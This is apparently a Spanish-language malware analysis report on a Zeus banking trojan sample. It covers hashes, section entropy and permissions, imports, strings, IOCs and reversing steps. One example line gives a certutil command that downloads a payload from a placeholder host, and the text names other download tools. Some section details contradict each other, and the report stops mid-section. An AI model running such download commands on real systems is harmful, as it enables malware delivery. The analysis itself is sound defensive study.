# Footprints

file > sha256,69E966E730557FDE8FD84317CDEF1ECE00A8BB3470C0B58F3231E170168AF169
dos-stub > sha256,6960FDC23907135D89201041AB3E8A222D0D9D327C4A16ADA1037BB1DAA11197
dos-header > sha256,5D85EEA79E3B682F8FE35296C9C506B0960112F39CC275078E096295EFF02644
rich-header > sha256,CD3CD6CDB421DA509FDE21CB41B183E51E145371F844B5DE628A3A2E873ABFF6
section > .text > sha256,8309B5D320B3D392E25AFD57793E6BB9D54A3AEACA697759963B008F3367B352
section > .data > sha256,510A0F9FAF189356CA7819AC6A5CBE1DA1D94EA110158E1C4D3BCB753C458BA5
section > .itext > sha256,4CDD5D9821CC0790A1D7031EF6CD3DFA9E68B967279D3BD2F0DE781EBCB95389
section > .pdata > sha256,70CC3E025CCED228E4EBB21E54B904A2E0CCEC85C0B0E292A1E12E7C819DB0AE
section > .rsrc > sha256,CB1CB914AD7F61C98BFB6506306E31A8D94DF71B078C69405E9FBD8DD289C54F
section > .reloc > sha256,7C2F4C4DB94369F90B2A41459CB3FB96EB9E9FF0D8631B7C6562467F0D8924B9
manifest > sha256,781AA123142F5551ABCD8D75E34CB3E24686341235276240580E4F3244616C9D
,
special,
imphash > md5,459E320C8A8F7E7049FF769CD123FD31


 # Identificación: Es Zeus (Zbot)

El archivo no es solo una "posible variante". El hash confirma que se trata de una muestra conocida del Troyano Bancario Zeus, extraída originalmente del repositorio de malware theZoo.

- Nombre real del archivo: invoice_2318362983713_823931342io.pdf.exe.
- Detección: Alrededor de 62-65 motores antivirus lo marcan como malicioso.


Es un troyano bancario para Windows centrado en robo de credenciales y fraude transaccional mediante man-in-the-browser (MitB) y form-grabbing.

Objetivo principal: capturar credenciales bancarias y datos financieros antes de que el navegador los cifre con TLS/SSL, y/o manipular la sesión del usuario ya autenticado para facilitar el fraude.


Arquitectura: 32 bits, tipo ejecutable PE, subsistema GUI, lo cual cuadra con un dropper bancario camuflado como documento PDF (“invoice_…pdf.exe”).

## Capacidades típicas:
- MitB / Webinjects: inyección/modificación de contenido en páginas bancarias en tiempo real (p. ej., añadir campos extra o alterar formularios).
- Form-grabbing y keylogging: captura de formularios/teclas para credenciales y otros accesos (correo, FTP, etc.).
- Modularidad: Zeus marcó un “patrón” arquitectónico que luego heredaron múltiples troyanos bancarios posteriores/derivados.


> Nota de contexto: el Zeus original se identificó en 2007 y su evolución/filtraciones impulsaron un ecosistema de variantes (p. ej., GameOver Zeus con C2 P2P; y derivados posteriores que reutilizan técnicas).


# ¿Qué hace al ejecutarse?
- El Señuelo (Decoy): Al ejecutarse, el malware intenta instalar una versión falsa de Adobe Flash Player para distraer a la víctima. Crea un proceso hijo llamado InstallFlashPlayer.exe en el directorio temporal (%TEMP%).

- Ejecución Oculta: Lanza cmd.exe y conhost.exe en segundo plano. Estos procesos son los encargados de ejecutar los comandos maliciosos sin que aparezca ninguna ventana en tu pantalla.

- Tráfico de Red: Intenta contactar con dominios como `fpdownload.macromedia.com`. A menudo, Zeus usa tráfico que parece legítimo para camuflar su comunicación con el servidor de control (C2).


# Las secciones


## Tamaño de las secciones - Empaquetamiento del malware:
| section | sha256 (prefix) | entropy | file ratio | raw begin | raw end | raw size | VA begin | VA end | virtual size |
|---|---|---:|---:|---:|---:|---|---:|---:|---|
| .text  | 8309... | 6.707 | 18.42% | 0x00000400 | 0x0000BA00 | 0x0000B600 (46592 bytes) | 0x00001000 | 0x0000C571 | 0x0000B571 (46449 bytes) |
| .data  | 510A... | 6.130 | 30.16% | 0x0000BA00 | 0x0001E400 | 0x00012A00 (76288 bytes) | 0x0000D000 | 0x0001F8B1 | 0x000128B1 (75953 bytes) |
| .itext | 4CDD...  | 4.819 | 1.01%  | 0x0001E400 | 0x0001EE00 | 0x00000A00 (2560 bytes)  | 0x00020000 | 0x0002084D | 0x0000084D (2125 bytes)  |
| .pdata | 70CC...  | 6.768 | 38.66% | 0x0001EE00 | 0x00036C00 | 0x00017E00 (97792 bytes) | 0x00021000 | 0x00038CBE | 0x00017CBE (97470 bytes) |
| .rsrc  | CB1C...  | 6.143 | 9.11%  | 0x00036C00 | 0x0003C600 | 0x00005A00 (23040 bytes) | 0x00039000 | 0x0003E8F2 | 0x000058F2 (22770 bytes) |
| .reloc | 7C2F... | 6.441 | 2.23%  | 0x0003C600 | 0x0003DC00 | 0x00001600 (5632 bytes)  | 0x0003F000 | 0x000405EC | 0x000015EC (5612 bytes)  |


**Comparación de tamaños - Raw vs Virtual:** En análisis estático, un método común es comparar el tamaño en disco (raw) y el tamaño en memoria (virtual) del archivo. Esto ayuda a determinar si el archivo está empaquetado o comprimido.
- Tamaño Raw: Es el tamaño del archivo en el disco.
- Tamaño Virtual: Es el tamaño del archivo cuando se carga en memoria.
Si estos dos tamaños difieren de forma significativa, probablemente el archivo esté empaquetado. Si son similares, no hay empaquetado ni compresión y el malware se presenta tal cual.


**Discrepancia entre Tamaño Físico y Virtual:**
| Sección | Raw Size (Disco) |	Virtual Size (Memoria)	| Diferencia |
| -- | -- | --| -- |
|.text	| 46,592 bytes	| 46,449 bytes	| ~143 bytes |
|.pdata	| 97,792 bytes	| 97,470 bytes	| ~322 bytes |


## Entropía de las secciones
La entropía mide la aleatoriedad de los datos. Valores altos sugieren que los datos están cifrados o comprimidos.
- Sección .text: Tiene una entropía de 6.707.
- Sección .pdata: Sube a 6.768.

Muchos trabajos toman valores ≥7–7.2 como indicador fuerte de datos comprimidos/cifrados (alto grado de aleatoriedad).

## Empaquetamiento del malware
**Podemos determinar que:**
- Entropía Elevada: Casi todas las secciones (especialmente `.text`, `.pdata`, `.rsrc` y `.reloc`) presentan una entropía superior a 6.1.
- Aunque las diferencias de tamaño no son masivas (lo que descartaría packers simples como UPX), la entropía consistente en todas las secciones sugiere un empaquetador personalizado o un "protector" que cifra el contenido de cada sección de forma independiente para dificultar el análisis estático.
- Sección No Estándar (`.pdata`): Esta sección es la más sospechosa. No solo tiene la entropía más alta (6.768), sino que también posee el mayor "file ratio" (38.66%). Como vimos en el análisis visual previo, esta sección tiene permisos de escritura y ejecución (RWX) y está marcada como automodificable (self-modifying). Este es el comportamiento típico de un "stub" de desempaquetado: código que escribe el verdadero malware en la memoria y luego lo ejecuta.
- Otro dato importante a tener en cuenta es que, tenemos gran cantidad de strings ASCII/UNICODE visibles, lo que también va en contra de un empaquetado total.  Puede existir una ofuscación selectiva: ciertas estructuras (config, comandos, quizás algún payload pequeño) están cifradas/encodeadas dentro de secciones normales, pero el ejecutable en sí no está comprimido ni protegido por un packer.
- Importaciones Reducidas: El malware importa funciones como VirtualAlloc, LocalAlloc y CreateFileMappingA. Estas son las "herramientas de construcción" necesarias para que un malware empaquetado reserve memoria nueva donde pueda "soltar" su carga útil real una vez descifrada.


El malware utiliza un packer polimórfico. La sección .pdata actúa como el motor de descompresión que reconstruye el troyano Zeus en la memoria del sistema tras evadir las defensas iniciales. En este virus el empaquetamiento sirve para:
- Evasión de Antivirus: Al cambiar la estructura del archivo y su hash, los motores de búsqueda basados en firmas no reconocen el virus.
- Ocultación del C2: Las URLs de los servidores de control y las configuraciones bancarias están cifradas dentro de estas secciones de alta entropía y solo se revelan en la memoria RAM durante la ejecución.


## Características y Flags
| section | characteristics | write | execute | share | self-modifying | virtual |
|---|---:|:---:|:---:|:---:|:---:|:---:|
| .text  | 0x60000020 | - | **x** | - | - | - |
| .data  | 0xC0000040 | x | - | - | - | - |
| .itext | 0xC0000040 | x | - | - | - | - |
| .pdata | 0xE0000020 | x | **x** | - | **x** | - |
| .rsrc  | 0x40000040 | - | - | - | - | - |
| .reloc | 0x42000040 | - | - | - | - | - |


<mark><sections (characteristics > self-modifying: en rojo, indica al menos una sección con combinación RWX o patrón típico de código que se reescribe en tiempo de ejecución. Esto indica que el código cambiará a sí mismo mientras se ejecuta. Es una técnica clásica de polimorfismo para evadir firmas de antivirus.</mark> Las secciones de código no suelen tener permiso de escritura para evitar exploits. Que una sección pueda escribir y ejecutar al mismo tiempo es el comportamiento típico de un packer o un descompresor de malware.


## Items (solo entradas con valor)
| item | section | value |
|---|---|---:|
| directory > import | .itext | 0x00020140 |
| directory > import-address | .itext | 0x00020000 |
| directory > resource | .rsrc | 0x00039000 |
| directory > relocation | .reloc | 0x0003F000 |
| exports > name (RVA) | .pdata | 0x000333F6 |
| manifest | .rsrc | 0x0003C378 |
| base-of-code | .text | 0x00001000 |
| base-of-data | .data | 0x0000D000 |
| entry-point > location | .text | 0x0000A3B6 |


## Sección .text  
- Inicio - raw begin: `0x00000400`.
- Fin - raw end: `0x0000BA00`.
- Entropy moderada (6.707) y file % ratio ~90%, tamaño virtual ~250 KB.
- Flags:
  - No aparece el flag de write en la captura.
  - Sí aparece el flag execute, por lo que en principio es RX, como cabría esperar.
- Es razonable asumir que aquí reside el código principal: inicialización, API imports indirectos, descompresión de payload y/o inyección en otros procesos.
- El tamaño relativamente grande para un troyano bancario sugiere que puede incluir lógica empaquetada propia, no un simple stub PE pequeño, con rutinas de cifrado, comunicaciones C2, parser de config, etc.


**Lo interesante aquí para análisis estático:**
- Buscar patrones de desencriptado/decompresión: bucles con xor/add/sub/rol/ror sobre buffers, uso de VirtualAlloc/VirtualProtect seguido de copias de memoria a secciones ejecutables.
- Localizar trampolines hacia `.itext` u otras regiones: llamadas/jumps que van a RVA dentro de .itext o .pdata.


## Sección .data  
- Inicio - raw begin: 0x0000BA00.
- Fin: end raw: 0x0001E400.
- Entropía ~6.13, file % ratio ~30%, tamaño virtual ~75 KB.
- Tiene flag de ejecución (execute marcado con ✔), lo cual es inusual: .data suele ser RW, no RX.
- El hecho de que Pestudio marque el binario como “self‑modifying” suele correlacionar con secciones de datos ejecutables o RWX usadas como zona de desencriptado de shellcode/payload.

**Hipótesis de uso en este malware:**
- Almacenamiento cifrado de:
    - Configuración de Zeus (dominios C2, cuentas bancarias objetivo, webinjects).
    - API strings ofuscadas.
    - Shellcode que se desencripta y se hace ejecutable en runtime.

- Región “scratch” donde se copia código de .text ya descrifado para después cambiar permisos a RX y ejecutar.

**Para confirmar, en reversing:**
- Buscar referencias de código que escriban intensivamente dentro de direcciones RVA que caen en .data y luego ejecuten saltos allí.
- Rastrear llamadas a VirtualProtect/VirtualAlloc que apunten a esa sección, y bucles de deofuscación que terminen con un jmp a un offset en .data.


## Sección .itext
- Inicio - raw begin: 0x0001E400.
- Fin - end raw: 0x0001EE00.
- Nombre inusual (.itext), muy pequeña (~2.5 KB de raw, ~2 KB virtuales), con flag execute.
- Esta clase de sección suele usarse en malware como:
    - Stub de inicialización que corre muy pronto (por ejemplo, llamado desde el entry point) para montar anti‑debug/anti‑VM antes de saltar al código principal.
    - Trampolín para código desencriptado: el stub descifra un bloque en otra sección y luego hace un jmp allí.

**Puntos de análisis:**
- Ver si el entry‑point está dentro de .itext; si es así, centrar el análisis inicial ahí buscando:
    - Comprobaciones de PEB (BeingDebugged, NtGlobalFlag).
    - Llamadas a APIs de entorno (IsDebuggerPresent, CheckRemoteDebuggerPresent, etc.).
    - Decrypt loops compactos que referencien offsets en .text o .data.
- Aunque el tamaño es pequeño, podría contener pequeños fragmentos de shellcode polimórfico que cambian entre builds, típico en familias de troyanos bancarios para evadir firmas.


## Sección .pdata 
- Inicio - raw begin: 0x0001EE00.
- Fin - end raw: 0x00036C00.
- Entropía ~6.76, file % ratio ~38%, tamaño virtual ~95 KB.
- No tiene flag execute; se marca como datos (lo esperable).
- En PE legítimos suele contener información de excepción estructurada (SEH), pero en malware se reutiliza a menudo como “almacén” de datos ofuscados porque muchos analistas novatos la ignoran.

**Posibles usos en este contexto:**
- Almacenamiento de:
    - Tabla de configuración principal (ID de bot, URL C2, rutas de inyección de navegador, etc.).
    - Webinjects comprimidos.
    - Strings empaquetadas (nombres de bancos, dominios objetivo).
- Como zona intermedia en rutinas de empaquetador: datos comprimidos que luego se inflan a .data o memoria recién alocada.

**En análisis:**
- Extraer el contenido de .pdata y revisar con un hexdump/binaryninja/radare buscando estructuras repetitivas (longitud, flag, offset…) o compresión (cabeceras zlib/deflate, RC4, AES reconocible).
- Si se detecta RC4/AES o XOR sencillo, escribir script para deofuscar y volcar la configuración Zeus‑like (dominios, paths, user‑agents).

La sección `.pdata` confirma que es maliciosa. Contiene el código ofuscado que, una vez en memoria, "suelta" (drops) el ejecutable InstallFlashPlayer.exe. Los permisos de escritura/ejecución (RWX) que señalamos antes son necesarios para desempaquetar este segundo archivo en tiempo real.


## Sección .rsrc 
- Inicio - raw begin: 0x00036C00.
- Fin - end raw: 0x0003C600.
- Entropía ~6.14, file % ratio ~9%, tamaño virtual ~23 KB, sin flag execute (normal).
- Aun siendo una sección típica, para malware bancario suele ser interesante:
    - Puede contener íconos y diálogos para camuflarse como PDF viewer/factura.
    - Puede esconder payloads adicionales (por ejemplo, DLL bancarias, plantillas HTML de webinject) en recursos “custom”.

**Acciones sugeridas:**
- Enumerar recursos y comprobar tipos no estándar (RT_RCDATA, recursos con nombres numéricos raros).
- Extraer recursos binarios grandes y analizarlos aparte; a veces la config de Zeus se esconde ahí en lugar de .data/.pdata.


## Sección .reloc
- Inicio - raw begin: 0x0003C600.
- Fin: end raw: 0x0003DC00.
- Entropía: 6.441, file % ratio ~2.
- La sección .reloc contiene la información de reubicación (base relocation table) del ejecutable PE.
- Para qué sirve
    - Cuando el binario se compila, todas las direcciones absolutas se calculan suponiendo una ImageBase preferida (por ejemplo 0x400000).
    -     Si en tiempo de carga esa dirección ya está ocupada, el loader de Windows debe cargar la imagen en otra base y ajustar todas las referencias absolutas (punteros a código y datos).
    - La tabla que le dice al loader qué direcciones hay que ajustar y cómo está precisamente en la sección 

Relevancia para malware y reversing
- Si la sección .reloc está presente y válida, el binario es relocatable: puede inyectarse/reubicarse fácilmente en otra dirección o en otro proceso, porque el loader (o un loader propio) puede aplicar esas reubicaciones de forma correcta.
- Algunos protectores y malware la eliminan para dificultar que se vuelva a mapear la imagen manualmente; en tu muestra la .reloc existe con tamaño coherente, lo que facilita técnicas como PE injection o reconstrucción de imagen en memoria durante el análisis.


# Los imports

- Imports y Librerías: El análisis de esta muestra indica que importa KERNEL32.dll, SHLWAPI.dll y USER32.dll. Estas son las librerías justas y necesarias para manipular archivos (crear el falso instalador) y modificar el registro de Windows para ganar persistencia (que el virus se inicie al encender el PC).

```
PathRemoveArgsA,-,implicit,-,0x00020404,0x00020404,SHLWAPI.dll
StrCmpNIA,-,implicit,-,0x000203F8,0x000203F8,SHLWAPI.dll
PathMatchSpecW,-,implicit,-,0x000203E6,0x000203E6,SHLWAPI.dll
IsCharSpaceA,-,implicit,-,0x000203D6,0x000203D6,SHLWAPI.dll
PathMakeSystemFolderA,-,implicit,-,0x000203BE,0x000203BE,SHLWAPI.dll
PathIsRelativeA,-,implicit,-,0x000203AC,0x000203AC,SHLWAPI.dll
PathIsSameRootA,-,implicit,-,0x0002039A,0x0002039A,SHLWAPI.dll
PathParseIconLocationW,-,implicit,-,0x000202E6,0x000202E6,SHLWAPI.dll
PathIsUNCServerA,-,implicit,-,0x00020386,0x00020386,SHLWAPI.dll
14 (GetAcceptLanguages),-,implicit,x,0x8000000E,0x8000000E,SHLWAPI.dll
ChrCmpIW,-,implicit,-,0x0002037A,0x0002037A,SHLWAPI.dll
PathAddExtensionW,-,implicit,-,0x00020366,0x00020366,SHLWAPI.dll
PathCombineW,-,implicit,-,0x00020356,0x00020356,SHLWAPI.dll
PathQuoteSpacesA,-,implicit,-,0x00020342,0x00020342,SHLWAPI.dll
157 (StrCmpIC),-,implicit,x,0x8000009D,0x8000009D,SHLWAPI.dll
PathIsRootW,-,implicit,-,0x00020334,0x00020334,SHLWAPI.dll
29 (IsCharSpace),-,implicit,x,0x8000001D,0x8000001D,SHLWAPI.dll
PathRenameExtensionA,x,implicit,-,0x0002031C,0x0002031C,SHLWAPI.dll
PathIsPrefixA,-,implicit,-,0x0002030C,0x0002030C,SHLWAPI.dll
PathRelativePathToW,-,implicit,-,0x000202D0,0x000202D0,SHLWAPI.dll
ChrCmpIA,-,implicit,-,0x00020300,0x00020300,SHLWAPI.dll
GetPrivateProfileIntW,-,implicit,-,0x0002059A,0x0002059A,KERNEL32.dll
LocalFree,-,implicit,-,0x00020648,0x00020648,KERNEL32.dll
WinExec,x,implicit,-,0x0002063E,0x0002063E,KERNEL32.dll
DeleteCriticalSection,-,implicit,-,0x00020626,0x00020626,KERNEL32.dll
GetUserDefaultUILanguage,-,implicit,-,0x0002060A,0x0002060A,KERNEL32.dll
FindNextFileA,x,implicit,-,0x000205FA,0x000205FA,KERNEL32.dll
GetOEMCP,-,implicit,-,0x000205EE,0x000205EE,KERNEL32.dll
SetCurrentDirectoryW,-,implicit,-,0x000205D6,0x000205D6,KERNEL32.dll
LocalAlloc,-,implicit,-,0x000205C8,0x000205C8,KERNEL32.dll
CreateFileMappingA,-,implicit,-,0x000205B2,0x000205B2,KERNEL32.dll
GetCompressedFileSizeA,-,implicit,-,0x00020566,0x00020566,KERNEL32.dll
GetEnvironmentVariableA,x,implicit,-,0x00020580,0x00020580,KERNEL32.dll
GetConsoleAliasExesLengthW,x,implicit,-,0x00020548,0x00020548,KERNEL32.dll
SizeofResource,-,implicit,-,0x00020536,0x00020536,KERNEL32.dll
GetDriveTypeA,-,implicit,-,0x00020526,0x00020526,KERNEL32.dll
WriteFile,x,implicit,-,0x0002051A,0x0002051A,KERNEL32.dll
VirtualQueryEx,x,implicit,-,0x00020508,0x00020508,KERNEL32.dll
IsBadReadPtr,-,implicit,-,0x000204F8,0x000204F8,KERNEL32.dll
GetCurrentThread,x,implicit,-,0x000204E4,0x000204E4,KERNEL32.dll
GetTickCount,-,implicit,-,0x000204D4,0x000204D4,KERNEL32.dll
LocalUnlock,-,implicit,-,0x00020422,0x00020422,KERNEL32.dll
GetEnvironmentVariableW,x,implicit,-,0x00020430,0x00020430,KERNEL32.dll
GetSystemDefaultUILanguage,-,implicit,-,0x0002044A,0x0002044A,KERNEL32.dll
FreeLibrary,-,implicit,-,0x00020468,0x00020468,KERNEL32.dll
GlobalAddAtomA,x,implicit,-,0x00020476,0x00020476,KERNEL32.dll
HeapFree,-,implicit,-,0x00020488,0x00020488,KERNEL32.dll
GetLogicalDrives,-,implicit,-,0x00020494,0x00020494,KERNEL32.dll
GetSystemDefaultLCID,-,implicit,-,0x000204A8,0x000204A8,KERNEL32.dll
GetModuleHandleW,-,implicit,-,0x000204C0,0x000204C0,KERNEL32.dll
CallWindowProcW,-,implicit,-,0x00020684,0x00020684,USER32.dll
GetProcessDefaultLayout,-,implicit,-,0x00020696,0x00020696,USER32.dll
UpdateWindow,-,implicit,-,0x000206B0,0x000206B0,USER32.dll
GetClipboardOwner,x,implicit,-,0x00020670,0x00020670,USER32.dll
AppendMenuA,-,implicit,-,0x000206DC,0x000206DC,USER32.dll
GetCaretPos,-,implicit,-,0x000206EA,0x000206EA,USER32.dll
GetSysColor,-,implicit,-,0x000206F8,0x000206F8,USER32.dll
DestroyCursor,-,implicit,-,0x00020706,0x00020706,USER32.dll
GetClipboardData,x,implicit,-,0x00020716,0x00020716,USER32.dll
GetScrollInfo,-,implicit,-,0x0002072A,0x0002072A,USER32.dll
FlashWindowEx,-,implicit,-,0x0002073A,0x0002073A,USER32.dll
GetAsyncKeyState,x,implicit,-,0x0002074A,0x0002074A,USER32.dll
SetLastErrorEx,-,implicit,-,0x0002075E,0x0002075E,USER32.dll
InflateRect,-,implicit,-,0x00020770,0x00020770,USER32.dll
GetCapture,-,implicit,-,0x0002077E,0x0002077E,USER32.dll
EnumClipboardFormats,x,implicit,-,0x0002078C,0x0002078C,USER32.dll
ShowCaret,-,implicit,-,0x000207A4,0x000207A4,USER32.dll
CopyAcceleratorTableA,-,implicit,-,0x000207B0,0x000207B0,USER32.dll
IsWindowEnabled,-,implicit,-,0x000207C8,0x000207C8,USER32.dll
DdeQueryNextServer,x,implicit,-,0x000207DA,0x000207DA,USER32.dll
LoadBitmapA,-,implicit,-,0x000207F0,0x000207F0,USER32.dll
DeleteMenu,-,implicit,-,0x000207FE,0x000207FE,USER32.dll
HideCaret,-,implicit,-,0x0002080C,0x0002080C,USER32.dll
GetWindowTextLengthW,-,implicit,-,0x00020818,0x00020818,USER32.dll
SwapMouseButton,-,implicit,-,0x00020830,0x00020830,USER32.dll
VkKeyScanA,x,implicit,-,0x00020662,0x00020662,USER32.dll
AllowSetForegroundWindow,x,implicit,-,0x000206C0,0x000206C0,USER32.dll
```


## KERNEL32
Funciones a destacar:
- WinExec: API antigua pero todavía usada en malware para lanzar comandos o ejecutar payloads adicionales, a menudo con rutas a %TEMP%, %APPDATA% donde se copia el segundo stage.
- FindNextFileA: Indica que recorre directorios; puede usarse para:
    - Buscar rutas concretas (por ejemplo, navegadores, directorios de bancos, plugins).
    - Enumerar archivos para robar documentos o para buscar ubicaciones donde persistir.
- GetEnvironmentVariableA / GetEnvironmentVariableW: Típico en malware para:
    - Leer %APPDATA%, %TEMP%, %PROGRAMFILES%, %USERNAME%, etc., y construir rutas de instalación.
    - Detectar sandbox/VM mediante variables específicas de entornos virtuales o sandboxing.
- VirtualQueryEx: Herramienta fuerte para:
    - Inspeccionar memoria de otros procesos (p.ej. navegador) antes de inyectar.
    - Enumerar regiones ejecutables para localizar módulos a manipular.
    - Sugiere que inspecciona memoria de otro proceso, a menudo paso previo a inyección o a localizar módulos como navegadores.
- GetCurrentThread: frecuentemente aparece en conjunción con APIs de manejo de excepciones o sincronización (SEH-based anti‑debug, mutexes, etc.).
- WriteFile: fundamental para droppers: escribir payloads descargados, logs, capturas de teclado o datos robados en disco antes de exfiltrarlos.


## USER32 - Funciones de UI y teclado/clipboard
- GetAsyncKeyState y VkKeyScanA:
    - Son clásicas en keyloggers: lectura asíncrona del estado de teclas para construir cadenas tecleadas.
    - En un troyano bancario tipo Zeus, se usan como fallback al form‑grabbing in‑browser para capturar credenciales, PINs y OTP cuando el hook HTTP falla.
- GetClipboardData, GetClipboardOwner, EnumClipboardFormats:
    - Permiten monitorizar y robar información copiada al portapapeles (usuarios que copian/pegan contraseñas desde gestores de contraseñas, números de tarjeta, IBAN, etc.).
    - También se utilizan para manipular datos en el portapapeles (p.ej. cambiar direcciones de criptomonedas), aunque eso es más típico en stealers de crypto.
- AllowSetForegroundWindow:
    - Puede facilitar que el proceso del malware traiga a primer plano ventanas propias (falsos formularios, diálogos de phishing bancario) o manipular focus para engañar al usuario.
- DdeQueryNextServer:
    - API DDE algo antigua; su presencia puede estar ligada a integraciones con aplicaciones que todavía usan DDE (ej. Office), o simplemente arrastre de algún código reutilizado.
    - Malware avanzado lo podría usar para comunicarse con otros procesos/apps de forma menos habitual.


## Ausencia real de APIs de Red
- En la IAT solo aparecen KERNEL32.dll, USER32.dll y SHLWAPI.dll; no hay WS2_32.dll, WININET.dll, WINHTTP.dll, URLMON.dll, etc.
- Eso confirma que este binario concreto no abre sockets ni hace HTTP de forma directa a través de imports estáticos; cualquier red que veamos en ejecución tendrá que venir de:
    - APIs resueltas dinámicamente,
    - procesos/herramientas externas lanzadas con WinExec,
    - o de otros módulos a los que inyecta.

La red no se releja en los imports. 

**Cómo WinExec puede permitir C2 sin APIs de red:** Con WinExec, el malware puede lanzar herramientas “living‑off‑the‑land” con argumentos ofuscados, por ejemplo:
- powershell con un script que use .Net.WebClient o Invoke-WebRequest para descargar/mandar datos al C2.
- certutil, curl, bitsadmin, mshta, cscript o similares para descargar payloads o exfiltrar datos.

Todo el tráfico se hace entonces:
- Bajo el proceso legítimo (powershell.exe, certutil.exe, curl.exe, etc.).
- Sin que el binario tenga ningún import de red; solo veremos WinExec y una cadena de comando.

**El papel de las cadenas ofuscadas:** Las familias modernas:
- Guardan las líneas de comandos ofuscadas (XOR/Base64, fragmentadas) en secciones de datos/recursos y las reconstruyen en runtime.
- Así, en los strings vemos trozos raros o aparentemente inocuos, pero el código los concatena/decodifica y se los pasa a WinExec o CreateProcess.

Ejemplo típico (simplificado):
- En strings: ce, rtu, til.exe, -urlcache, http://x.y/z.
- En runtime: lo juntan en certutil.exe -urlcache -split -f http://x.y/z payload.exe y lo ejecutan con WinExec.

A nivel estático, no vemos certutil ni la URL completa, solo esas piezas ofuscadas.

**Cómo confirmarlo:**
- Rompemos en WinExec y logueamos el `lpCmdLine` real que le llega (ya desofuscado).
- Observamos qué binario arranca (powershell, cmd /c, certutil, curl, etc.) y con qué argumentos/URL.
- En el sandbox/VM, monitoreamos procesos hijo y conexiones salientes de esos binarios legítimos, no solo del malware inicial.

**Qué hariamos para analizarla:**
- Localizar dónde se referencia esa cadena en el código (RVA de la sección y xrefs en tu desensamblador).
- Ver la rutina que la procesa: suele ser un bucle con XOR/ADD/ROL, o un decodificador tipo base64/base32 modificado; ahí sabrás si es:
    - Config Zeus‑like (verás URLs/dominos al final),
    - Un payload embebido,
    - O una línea de comando construida en un buffer para WinExec.

- Una vez identificada la operación, replicarla en un script (Python) para volcar el contenido real y así confirmar si interviene o no en C2.


**En el análisis dinámico, deberíamos hacer:**
- Breakpoint en WinExec para ver qué comandos/payloads ejecuta y con qué rutas.
- Breakpoints en GetAsyncKeyState y GetClipboardData para confirmar actividad de keylogging/clipboard stealer y ver cómo y dónde almacena esos datos.
- Breakpoint en VirtualQueryEx para ver sobre qué procesos opera (Chrome, Firefox, IExplore, etc., lo que te diría el vector bancario).
- Monitorizar llamadas a WriteFile para localizar ficheros temporales de payload/config/logs de credenciales.


## SHLWAPI - Funciones de ruta y cadena
- PathRenameExtensionA, PathMatchSpecW, PathIsRelativeA, PathSameRootA:
    - Facilitan manipulación avanzada de rutas, filtrado por patrones (wildcards) y normalización de paths.
    - Pueden servir para:
        - Cambiar la extensión de ficheros (por ejemplo, crear un .exe a partir de un nombre que parece .pdf).
        - Seleccionar directorios adecuados para persistencia según tengan cierta estructura.
        - Evitar analizar rutas fuera de determinados volúmenes (USB, red, etc.).
- PathMakeSystemFolderA:
    - Marca una carpeta como de sistema, lo que puede ayudar a ocultar el directorio donde se instala el malware (atributos “system” y posiblemente “hidden”).
- PathUnExpandEnvStringsW:
    - Convierte rutas con variables de entorno (%APPDATA%) en rutas absolutas; útil cuando el malware quiere loguear rutas, compararlas o comprobar dónde se encuentra.
- Funciones de manejo de texto como IsCharSpaceA, StrCmpNIA:
    - Se usan para parsers propios (por ejemplo, parsear configuración, ficheros INI, plantillas HTML de webinjects, etc.), sin depender de librerías de más alto nivel.

Se manifiesta que el malware es capaz de manipular nombres de archivos y directorios para camuflarse y manejar múltiples componentes


# Los resources


# Indicadores de Compromiso (IOCs)

- Hash SHA256: 69e966e730557fde8fd84317cdef1ece00a8bb3470c0b58f3231e170168af169.
- Cadena sospechosa: Se ha detectado la función o cadena CellrotoCrudUntohighCols en su código, que es una firma específica de esta variante.
- Comportamiento clave: Creación de InstallFlashPlayer.exe y modificación del registro de Windows.


# Los Strings
A partir del output de FLOSS lo más importante es que la muestra parece estar muy `string-hardened`: tiene muchísimas cadenas estáticas ruidosas, muy pocas cadenas realmente “humanas”, y solo 33 `decoded strings` que además no aportan semántica clara. Eso suele apuntar a stub/loader + payload/config cifrado, o a resolución dinámica de APIs (GetProcAddress/LoadLibrary) para esconder capacidades que no aparecen en claro.


[**Los strings detectados - Opcion -a**](strings-a.ZeusBanking.txt)

[**Los strings detectados con Floss**](ZeusBank-Analisis-Floss.txt)


## 1 Captura de entrada (keylogging / form-grabbing “clásico”)
Hay un conjunto muy explícito de APIs de teclado/ventanas/clipboard:
- GetAsyncKeyState (polling de teclas), VkKeyScanA, GetKeyNameTextA
- GetClipboardData, EnumClipboardFormats, GetClipboardOwner 

Lectura defensiva: esto es compatible con keylogger/clipboard stealer (muy típico en troyanos bancarios), aunque por strings no podemos afirmar el mecanismo exacto: hooking vs polling vs inyección en navegador.

## 2 Componentes de GUI / señuelo (decoy)
Aparecen muchas funciones de UI y manejo de controles:
- SetDlgItemTextW, SetDlgItemInt, CreateCaret, ShowCaret/HideCaret, LoadIconA, LoadBitmapA, EndPaint, etc.

**Esto es consistente con:**
- un diálogo/ventana real (por ejemplo, para mostrar un “error” o un señuelo tipo “documento corrupto”), o
- un stub con UI mientras hace acciones en segundo plano.

## 3 Operaciones de ficheros y enumeración del sistema (dropper-like)
Se ven APIs de:
- ficheros/directorios: CreateFileA, WriteFile, DeleteFileA, FindFirstFileA/FindNextFileA/FindNextFileW
- rutas: muchísimas SHLWAPI.Path* (PathCanonicalizeW, PathRemoveFileSpecA, PathIsUNCW, etc.)

**Esto es consistente con:**
- Muy compatible con dropper/instalador (elige rutas, crea ficheros, limpia rastros),
- y/o con preparación de rutas para persistencia.
- A tener en cuentao: no aparecen APIs típicas de Registro (RegCreateKeyEx, RegSetValueEx, etc.), así que si hay persistencia por registro probablemente está resuelta dinámicamente o no está en esta etapa.

## 4 Comprobaciones de entorno / anti-analysis “suave”
Aparecen:
- GetSystemDefaultUILanguage, GetUserDefaultUILanguage, GetOEMCP, GetSystemDefaultLCID
- GetTickCount, VerSetConditionMask, VirtualQuery/VirtualQueryEx, IsBadReadPtr

**Esto es consistente con:**
- Perfilado por idioma/locale (geofencing o lógicas específicas por región),
- y primitives típicas para chequear memoria/estado (a veces anti-debug o para localizar/gestionar payload en memoria).


## 5. Identificadores Únicos de Familia

- `CellrotoCrudUntohighCols`: Esta secuencia de palabras aparentemente aleatorias es una firma interna detectada en esta variante específica de Zeus. Confirma que el archivo analizado coincide exactamente con la muestra reportada en repositorios de malware como theZoo.

## 6. Capacidades de Inyección y Evasión

El malware importa funciones críticas de `KERNEL32.dll` y `USER32.dll` que revelan su "hoja de ruta" tras la ejecución:
